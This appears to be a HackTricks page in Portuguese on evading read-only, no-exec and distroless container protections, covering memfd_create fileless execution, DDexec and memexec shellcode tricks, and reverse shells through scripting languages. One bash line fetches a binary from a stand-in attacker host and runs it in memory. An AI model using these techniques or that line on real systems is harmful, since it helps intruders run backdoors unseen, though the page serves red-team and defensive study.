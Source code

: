 # Bypassar proteções do sistema de arquivos: somente leitura / sem execução / Distroless

<details>

<summary><strong>Aprenda hacking AWS do zero ao avançado com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) do github.

</details>

## Vídeos

Nos seguintes vídeos, você pode encontrar as técnicas mencionadas nesta página explicadas de forma mais aprofundada:

* [**DEF CON 31 - Explorando a Manipulação de Memória do Linux para Furtividade e Evasão**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusões furtivas com DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## Cenário de somente leitura / sem execução

É cada vez mais comum encontrar máquinas Linux montadas com **proteção de sistema de arquivos somente leitura (ro)**, especialmente em contêineres. Isso ocorre porque executar um contêiner com sistema de arquivos ro é tão fácil quanto definir **`readOnlyRootFilesystem: true`** no `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

No entanto, mesmo que o sistema de arquivos seja montado como ro, **`/dev/shm`** ainda será gravável, então é falso que não podemos escrever nada no disco. No entanto, esta pasta será **montada com proteção no-exec**, então se você baixar um binário aqui, **não poderá executá-lo**.

{% hint style="warning" %}
Do ponto de vista de uma equipe vermelha, isso torna **complicado baixar e executar** binários que não estão no sistema (como backdoors ou enumeradores como `kubectl`).
{% endhint %}

## Bypass mais fácil: Scripts

Observe que mencionei binários, você pode **executar qualquer script** contanto que o interpretador esteja dentro da máquina, como um **script de shell** se `sh` estiver presente ou um **script python** se `python` estiver instalado.

No entanto, isso não é suficiente para executar seu backdoor binário ou outras ferramentas binárias que você possa precisar executar.

## Bypasses de Memória

Se você deseja executar um binário, mas o sistema de arquivos não permite, a melhor maneira de fazer isso é **executá-lo da memória**, pois as **proteções não se aplicam lá**.

### Bypass de chamada de sistema FD + exec

Se você tiver mecanismos de script poderosos dentro da máquina, como **Python**, **Perl** ou **Ruby**, você pode baixar o binário para executar da memória, armazená-lo em um descritor de arquivo de memória (`create_memfd` syscall), que não será protegido por essas proteções e então chamar uma **chamada de sistema `exec`** indicando o **fd como o arquivo a ser executado**.

Para isso, você pode facilmente usar o projeto [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Você pode passar a ele um binário e ele irá gerar um script na linguagem indicada com o **binário comprimido e codificado em b64** com as instruções para **decodificar e descomprimir** em um **fd** criado chamando a chamada de sistema `create_memfd` e uma chamada para a **chamada de sistema exec** para executá-lo.

{% hint style="warning" %}
Isso não funciona em outras linguagens de script como PHP ou Node porque eles não têm nenhuma maneira **padrão de chamar chamadas de sistema** brutos de um script, então não é possível chamar `create_memfd` para criar o **fd de memória** para armazenar o binário.

Além disso, criar um **fd regular** com um arquivo em `/dev/shm` não funcionará, pois você não terá permissão para executá-lo porque a **proteção no-exec** será aplicada.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) é uma técnica que permite que você **modifique a memória do seu próprio processo** sobrescrevendo seu **`/proc/self/mem`**.

Portanto, **controlando o código de montagem** que está sendo executado pelo processo, você pode escrever um **shellcode** e "mutar" o processo para **executar qualquer código arbitrário**.

{% hint style="success" %}
**DDexec / EverythingExec** permitirá que você carregue e **execute** seu próprio **shellcode** ou **qualquer binário** da **memória**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Para mais informações sobre essa técnica, consulte o Github ou:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) é o próximo passo natural do DDexec. É um **shellcode demonizado do DDexec**, então toda vez que você quiser **executar um binário diferente**, não precisa reiniciar o DDexec, você pode simplesmente executar o shellcode memexec via a técnica DDexec e então **comunicar-se com esse daemon para passar novos binários para carregar e executar**.

Você pode encontrar um exemplo de como usar **memexec para executar binários a partir de um shell reverso PHP** em [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Com um propósito semelhante ao DDexec, a técnica [**memdlopen**](https://github.com/arget13/memdlopen) permite uma **maneira mais fácil de carregar binários** na memória para posteriormente executá-los. Isso poderia até permitir carregar binários com dependências.

## Bypass Distroless

### O que é distroless

Contêineres distroless contêm apenas os **componentes mínimos necessários para executar um aplicativo ou serviço específico**, como bibliotecas e dependências de tempo de execução, mas excluem componentes maiores como um gerenciador de pacotes, shell ou utilitários do sistema.

O objetivo dos contêineres distroless é **reduzir a superfície de ataque dos contêineres eliminando componentes desnecessários** e minimizando o número de vulnerabilidades que podem ser exploradas.

### Shell Reverso

Em um contêiner distroless, você pode **nem mesmo encontrar `sh` ou `bash`** para obter um shell regular. Você também não encontrará binários como `ls`, `whoami`, `id`... tudo o que você costuma executar em um sistema.

{% hint style="warning" %}
Portanto, você **não** poderá obter um **shell reverso** ou **enumerar** o sistema como costuma fazer.
{% endhint %}

No entanto, se o contêiner comprometido estiver executando, por exemplo, um aplicativo web flask, então o Python está instalado e, portanto, você pode obter um **shell reverso em Python**. Se estiver executando node, você pode obter um shell reverso em Node, e o mesmo com a maioria das **linguagens de script**.

{% hint style="success" %}
Usando a linguagem de script, você poderia **enumerar o sistema** usando as capacidades da linguagem.
{% endhint %}

Se não houver **proteções `somente leitura/sem execução`**, você poderia abusar do seu shell reverso para **escrever no sistema de arquivos seus binários** e **executá-los**.

{% hint style="success" %}
No entanto, nesse tipo de contêineres, essas proteções geralmente existirão, mas você poderia usar as **técnicas de execução de memória anteriores para contorná-las**.
{% endhint %}

Você pode encontrar **exemplos** de como **explorar algumas vulnerabilidades de RCE** para obter **shells reversos de linguagens de script** e executar binários da memória em [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<details>

<summary><strong>Aprenda hacking AWS do zero ao hero com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
